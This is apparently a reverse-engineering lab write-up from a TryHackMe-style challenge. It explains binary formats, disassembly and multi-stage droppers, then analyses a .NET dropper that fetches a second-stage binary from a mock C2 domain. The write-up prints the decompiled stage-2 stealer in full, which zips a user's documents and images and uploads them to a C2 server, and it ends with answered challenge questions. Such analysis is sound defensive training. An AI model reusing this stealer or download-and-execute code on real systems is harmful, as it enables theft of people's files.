

# Day 21 - Reverse Engineering



# Reverse Engineering Overview

- **Reverse Engineering (RE)**: Process of analyzing the functionality of an application (binary) by deconstructing it.
- Used in **cybersecurity** to:
    - Identify malicious behavior.
    - Detect vulnerabilities.
    - Attribute binaries to attackers and find defense mechanisms.

### Famous Case

- **WannaCry ransomware (May 2017)**:
    - Marcus Hutchins reverse-engineered the malware.
    - Found a function tied to a specific domain.
    - Registered the domain, halting the global attack.

---

## Binaries

- **Definition**: Files compiled from source code into machine instructions.
- **Structure**:
    - **Windows**: [Portable Executable](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format) (PE) format.
    - **Linux**: Executable and Linkable Format (ELF).
- **Common Sections**:
    - **Code Section**: Contains executable CPU instructions.
    - **Data Section**: Stores variables, resources, etc.
    - **Import/Export Tables**: Reference libraries used or exported.

---

## Disassembly vs. Decompiling

- **Disassembly**:
    - Converts binary to low-level machine instructions (assembly).
    - Tools: IDA, Ghidra, GDB.
    - Provides detailed interaction flow.
- **Decompiling**:
    - Converts binary to high-level code (e.g., C#, C++).
    - May lose details like variable names.
    - Useful for overall application flow.

| **Comparison** | **Disassembly** | **Decompiling** |
| --- | --- | --- |
| **Readability** | Requires knowing assembly and low-level knowledge of computing concepts. | Requires familiarity with programming and logic |
| **Level of output** | The translated output is the exact instructions that the machine will perform. | The translated output is often a "best guess". The output may not be accurate, and useful information, such as variables, function names, etc, will likely be lost. |
| **Difficulty** | The difficulty can be considered higher as the machine instructions are translated into assembly. | The machine instructions are translated into a high-level language, which makes them easier to understand if you are familiar with the language the binary is written in. |
| **Usefulness** | The entire behaviour of the binary can be studied given enough time. | Decompiling is a quick way to understand some of the logic of the binary. |

---

## Multi-Stage Binaries


- **Definition**: Attacks using multiple binaries, each performing specific tasks.
- **Stages**:
    1. **Dropper**:
        - Lightweight binary.
        - Verifies conditions and downloads the payload.
    2. **Payload**:
        - Main attack binary (e.g., ransomware encryption).
- **Advantages**:
    - Evades detection (e.g., smaller initial binary bypassing email filters).
    - Adds control for attackers (stages executed conditionally).

---

## Case Study: Reverse Engineering a .NET Binary

### Tools

- **PEStudio**:
    - Extracts static information (e.g., hashes, URLs) from a binary.
    - Focus: Hash of `.text` section and suspicious indicators.
    - [The sections](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#section-table-section-headers) represent a memory space with different content of the Windows executable within the PE format. We can calculate the hash of these sections in order to identify the executable properly. We'll focus this time on two hashes: the one from the [.text](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#:~:text=in%20that%20module.-,.text,Executable%20code%20(free%20format),-IMAGE_SCN_CNT_CODE%20%7C%20IMAGE_SCN_MEM_EXECUTE%20%7C%20IIMAGE_SCN_MEM_READ) section, which is the section on the file containing the executable code; this section is often marked as Read and executable, so it should not have any alterations when the file is being copied.
        
        
        
    - Another essential section we can use to obtain information about the binary is the "indicators" section. This section tells us about the potential indicators like URLs or other suspicious attributes of a binary.
        
        
        
        Looking for artefacts such as IP addresses, URLs, and crypto wallets can be a "quick win" for gathering some identifying intelligence.
        
    
- **ILSpy**:
    - Decompiles .NET binaries into readable C# code.

### Demo Binary Walkthrough

### Source Code Analysis

```csharp
private static void Main(string[] args)
{
    Console.WriteLine("Hello THM DEMO Binary");
    Thread.Sleep(5000);

    string address = "<http://10.10.10.10/img/tryhackme_connect.png>";
    string text = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Desktop), "thm-demo.png");

    using (WebClient webClient = new WebClient())
    {
        try
        {
            Console.WriteLine("Downloading file...");
            webClient.DownloadFile(address, text);
            Console.WriteLine("File downloaded to: " + text);
            Process.Start(new ProcessStartInfo(text)
            {
                UseShellExecute = true
            });
            Console.WriteLine("Image opened successfully.");
        }
        catch (Exception ex)
        {
            Console.WriteLine("An error occurred: " + ex.Message);
        }
    }
    Console.WriteLine("Bye Bye leaving Demo Binary");
    Thread.Sleep(5000);
}
```

### Observations

1. **Execution Flow**:
    - Prints "Hello THM DEMO Binary".
    - Waits for 5 seconds.
    - Downloads a PNG file (`thm-demo.png`) from `http://10.10.10.10/img/tryhackme_connect.png`.
        - Connect to the URL on the **address** variable and save the content to a file on the Desktop using the [WebClient class](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-8.0)
    - Saves the file to the Desktop.
    - Execute the downloaded file path assigned to the **text** variable using the [Process class](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.process?view=net-8.0)  and the [Start method](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.process.start?view=net-8.0#system-diagnostics-process-start(system-string)).
    - Prints "Bye Bye leaving Demo Binary" and exits after 5 seconds.
        
        
        
2. **Critical Functions**:
    - **Console.WriteLine**: Outputs text to the console.
    - **Thread.Sleep**: Pauses execution.
    - **WebClient.DownloadFile**: Downloads content from a URL.
    - **Process.Start**: Opens a file.
    
    ---
    
    ## Challenge
    
    For this challenge, we are tasked to reverse engineer the application `WarevilleApp.exe`, located at `C:\Users\Administrator\Desktop\`. 
    
    Opening the binary with ILSpy, and expanding  `Form1` , we see the following:
    
    
    
    Form1 first performs an operating system check. It ensures that the executable is running on a windows machine. If the machine is not running windows, the binary simply stops execution. Otherwise the program begins a timer for 3 seconds.
    
    Expanding the next interesting function `timer1_Tick()`, we see the following:
    
     
    
    
    
    After the timer stops, the executable window gets hidden the `DownloadAndExecuteFile` function is called, followed by creating a new instance of `LoginForm()` as well.
    
    Now let’s analyze the `DownloadAndExecuteFile` function:
    
    
    
    We can see that this function reaches to the URL defined under the `address` variable and downloads a the file `explorer.exe` to the `Downloads` folder. The program also checks if the file already exists and if it does, it deletes the existing file and downloads the new one to the same location. 
    
    We now have an IoC in the form of a URL available to us:
    
    **`hxxp://mayorc2[.]thm:8000/dp/explorer.exe`** 
    
    ### Analyzing the Second Stage Binary
    
    We can either execute the application ourselves, or we can manually download the second stage binary on to our system. We can then analyze the second stage binary using `ILSpy`. The following are the contents of `Program` :
    
    ```csharp
    internal class Program
    {
    	private static bool loggingEnabled;
    
    	private static void Main(string[] args)
    	{
    		try
    		{
    			string[] source = new string[5] { ".docx", ".pptx", ".png", ".gif", ".jpeg" };
    			string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.MyPictures);
    			Log("Searching for files in: " + folderPath);
    			string text = Path.Combine(Path.GetTempPath(), "CollectedFiles");
    			Directory.CreateDirectory(text);
    			Log("Temporary folder created: " + text);
    			string[] files = Directory.GetFiles(folderPath, "*", SearchOption.AllDirectories);
    			int num = 0;
    			string[] array = files;
    			foreach (string file in array)
    			{
    				if (source.Any((string ext) => file.EndsWith(ext, StringComparison.OrdinalIgnoreCase)))
    				{
    					string destFileName = Path.Combine(text, Path.GetFileName(file));
    					File.Copy(file, destFileName, overwrite: true);
    					Log("File found and copied: " + file);
    					num++;
    				}
    			}
    			string text2 = Path.Combine(Path.GetTempPath(), "CollectedFiles.zip");
    			if (num == 0)
    			{
    				Log("No files were found matching the specified extensions.");
    			}
    			else
    			{
    				Log($"{num} files were found and copied.");
    				if (File.Exists(text2))
    				{
    					File.Delete(text2);
    					Log("Existing zip file in the temp folder deleted.");
    				}
    				Log("Creating zip file: " + text2);
    				ZipFile.CreateFromDirectory(text, text2);
    				Log("Zip file created successfully.");
    				string text3 = Path.Combine(folderPath, "CollectedFiles.zip");
    				if (File.Exists(text3))
    				{
    					File.Delete(text3);
    					Log("Existing zip file in Pictures deleted.");
    				}
    				File.Copy(text2, text3);
    				Log("Zip file copied to Pictures: " + text3);
    				Log("Uploading zip file...");
    				UploadFileToServer(text2);
    			}
    			Directory.Delete(text, recursive: true);
    			File.Delete(text2);
    			Log("Temporary files deleted.");
    		}
    		catch (Exception ex)
    		{
    			Log("An error occurred: " + ex.Message);
    		}
    	}
    
    	private static void UploadFileToServer(string zipFilePath)
    	{
    		string address = "http://anonymousc2.thm/upload";
    		using WebClient webClient = new WebClient();
    		try
    		{
    			webClient.UploadFile(address, zipFilePath);
    			Log("File uploaded successfully.");
    		}
    		catch (WebException)
    		{
    		}
    	}
    
    	private static void Log(string message)
    	{
    		if (loggingEnabled)
    		{
    			Console.WriteLine(message);
    		}
    	}
    }
    ```
    
    `Main()` :
    
    `Main()` gets any Word, PowerPoint, PNG, GIF or Jpeg file from the `My Pictures` folder or any sub folder, copies them to the temp directory under a folder named `CollectedFiles` and then zip the folder to a file named `CollectedFiles.zip`. This zip file is then copied to the `My Pictures` folder, following which it gets uploaded to a server and then the zip file is deleted.
    
    `UploadFileToServer()` :
    
    This function takes the location of the zip file as the sole parameter. After retrieving the path to the zip file, the function then uploads the file to `hxxp://anonymousc2[.]thm/upload`. 
---
    
## Questions
    
1. What is the function name that downloads and executes files in the `WarevilleApp.exe`?
        
    
        
    Ans.: **DownloadAndExecuteFile**
    

2. Once you execute the `WarevilleApp.exe`, it downloads another binary to the Downloads folder. What is the name of the binary?
        
    
        
    Ans.: **explorer.exe**
        

3. What domain name is the one from where the file is downloaded after running `WarevilleApp.exe`?
        
    As seen from the screenshot added to the previous question, we can see the domain from where the file is being downloaded in the address variable.
        
    Ans.: **mayorc2.thm**
        

4. The stage 2 binary is executed automatically and creates a zip file comprising the victim's computer data; what is the name of the zip file?
        
    
        
    Ans.: **CollectedFiles.zip**
        

5. What is the name of the C2 server where the stage 2 binary tries to upload files?
    
    The `UploadFileToServer()` function in the stage 2 binary contains the name of the C2 server:
        
    
        
    Ans.: **anonymousc2.thm**